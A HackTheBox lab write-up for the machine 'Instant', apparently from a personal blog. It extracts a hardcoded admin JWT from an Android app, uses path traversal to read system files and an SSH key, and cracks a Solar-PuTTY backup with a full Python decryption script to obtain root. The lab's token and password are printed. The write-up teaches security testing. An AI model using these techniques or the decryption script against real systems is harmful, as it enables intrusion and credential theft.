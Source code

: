 ```yaml
---
title: "HackTheBox - Instant"
date: 2025-03-01
categories: [Hackthebox, Labs, Writeup, Linux]
tags: [mobile, api, path-traversal, encryption, cwe-22, cwe-326, cwe-522, cwe-798]
image: assets/img/posts/htb-instant/Instant.png
---
```


## Introduction

This write-up details my approach to solving the HackTheBox machine "Instant". The box demonstrates several vulnerabilities including API authentication bypass, path traversal, and insecure credential storage in backup files.

## Initial Reconnaissance

Starting with a Rustscan to identify open ports:

```bash
❯ rustscan --ulimit 5000 -a instant.htb --range 1-65535 -- -sC -sV
```

The scan revealed two open ports:
- Port 22 (SSH) - OpenSSH 9.6p1
- Port 80 (HTTP) - Apache 2.4.58

## Web Application Analysis

Browsing to the homepage revealed an "Instant Wallet" application with a download button for an Android APK:
![homepage](../assets/img/posts/htb-instant/homepage.png)

### Mobile Application Analysis

Downloaded and analyzed the APK file using APKLeaks:

```bash
❯ apkleaks -f instant.apk
```

Discovered several API endpoints:
- http://mywalletv1.instant.htb/api/v1/confirm/pin
- http://mywalletv1.instant.htb/api/v1/initiate/transaction
- http://mywalletv1.instant.htb/api/v1/login
- http://mywalletv1.instant.htb/api/v1/register
- http://mywalletv1.instant.htb/api/v1/view/profile

Decompiled the APK using jadx-gui and found embedded admin credentials:
![jdax creds](../assets/img/posts/htb-instant/jadx-creds.png)

The jwt credentials are:
```
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA
```

We can try to now craft requests to the API endpoints with this header, we can now retrieve the admin profile:
![admin-profile-with-jwt](../assets/img/posts/htb-instant/authed-view-admin-profile.png)

## Initial Foothold

### API Exploration

Further inspection of the decompiled APK revealed a Swagger UI subdomain:
![swagger-subdomain](../assets/img/posts/htb-instant/swagger-domain.png)

The subdomain is `swagger.instant.htb`. Added it to /etc/hosts and accessed it:
![swagger-ui](../assets/img/posts/htb-instant/swagger-ui.png)


Used the discovered admin JWT token to authenticate with the Swagger UI:
![auth](../assets/img/posts/htb-instant/enter-auth-key.png)

We're authorized:
![authorize](../assets/img/posts/htb-instant/authorized.png)

Being authorized revealed additional admin API endpoints:
- /api/v1/admin/view/logs
- /api/v1/admin/read/log

### Path Traversal Vulnerability

The `/api/v1/admin/read/log` endpoint was vulnerable to path traversal, allowing access to files outside the intended directory:
![path-traversal](../assets/img/posts/htb-instant/path-traversal.png)

We see the `shirohige` user from the `/etc/passwd` file, and we find his ssh private key via the same vulnerability:
![ssh-key](../assets/img/posts/htb-instant/ssh-key.png)

We clean up the key by removing the quotes, newlines, and running chmod 600 on it, and test:
```shell
❯ chmod 600 ssh.key

❯ ssh -i ssh.key shirohige@instant.htb
shirohige@instant:~$ whoami
shirohige
shirohige@instant:~$ cat user.txt
41d49e203c8c2a27b6b30--snip--
```

## Privilege Escalation

### Backup File Analysis

During enumeration, discovered an interesting backup file:

```bash
shirohige@instant:/opt/backups/Solar-PuTTY$ ls -lah
-rw-r--r-- 1 shirohige shirohige 1.1K Sep 30 11:38 sessions-backup.dat
```

This file was base64 encoded and encrypted. Found a [script](https://gist.github.com/xHacka/052e4b09d893398b04bf8aff5872d0d5) to decrypt Solar-PuTTY backup files:
```python
import base64
import sys
from Crypto.Cipher import DES3
from Crypto.Protocol.KDF import PBKDF2

def decrypt(passphrase, ciphertext):
    data = ''
    try:
        # Decode the base64 encoded ciphertext
        array = base64.b64decode(ciphertext)
        salt = array[:24]
        iv = array[24:32]
        encrypted_data = array[48:]

        # Derive the key using PBKDF2
        key = PBKDF2(passphrase, salt, dkLen=24, count=1000)

        # Create the Triple DES cipher in CBC mode
        cipher = DES3.new(key, DES3.MODE_CBC, iv)

        # Decrypt the data
        decrypted_data = cipher.decrypt(encrypted_data)

        # Remove padding (PKCS7 padding)
        padding_len = decrypted_data[-1]
        decrypted_data = decrypted_data[:-padding_len]

        data = ''.join(chr(c) for c in decrypted_data if chr(c).isascii())

    except Exception as e:
        print(f'Error: {e}')

    return data

if len(sys.argv) < 3:
    print(f'Usage: {sys.argv[0]} putty_session.dat wordlist.txt')
    exit(1)

with open(sys.argv[1]) as f:
    cipher = f.read()

with open(sys.argv[2]) as passwords:
    for i, password in enumerate(passwords):
        password = password.strip()
        decrypted = decrypt(password, cipher)
        print(f'[{i}] {password=}', end='\r')
        if 'Credentials' in decrypted:
            print(f'\r[{i}] {password=} {" " * 10}')
            print()
            print(decrypted)
            break
```

Ran it against the rockyou.txt wordlist:
```bash
❯ python solar_decrypt.py sessions-backup.dat ~/htb/code/rockyou.txt
[103] password='estrella'

{"Sessions":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

Successfully decrypted the file using the password "estrella", revealing root credentials:
```json
{
  "Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
      "Password": "12**24nzC!r0c%q12"
    }
  ]
}
```

Used these credentials to switch to the root user:
```bash
shirohige@instant:/opt/backups/Solar-PuTTY$ su root
Password: 12**24nzC!r0c%q12
root@instant:/opt/backups/Solar-PuTTY# whoami
root
root@instant:/opt/backups/Solar-PuTTY# cat /root/root.txt
b78ce5ccf398239b7333d--snip--
```

## Vulnerabilities Identified

1. **Hardcoded API Credentials**
   - JWT token hardcoded in mobile application
   - CWE-798: Use of Hard-coded Credentials

2. **Path Traversal Vulnerability**
   - Admin API endpoint allowed arbitrary file access
   - CWE-22: Improper Limitation of a Pathname to a Restricted Directory

3. **Weak Encryption**
   - Solar-PuTTY backup file used weak encryption
   - CWE-326: Inadequate Encryption Strength

4. **Insecure Credential Storage**
   - Root password stored in backup file
   - CWE-522: Insufficiently Protected Credentials

## Tools Used

- Rustscan
- APKLeaks
- JADX-GUI
- Custom Python decryption script
- Burp Suite
- SSH client

## References
- [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-326: Inadequate Encryption Strength](https://cwe.mitre.org/data/definitions/326.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)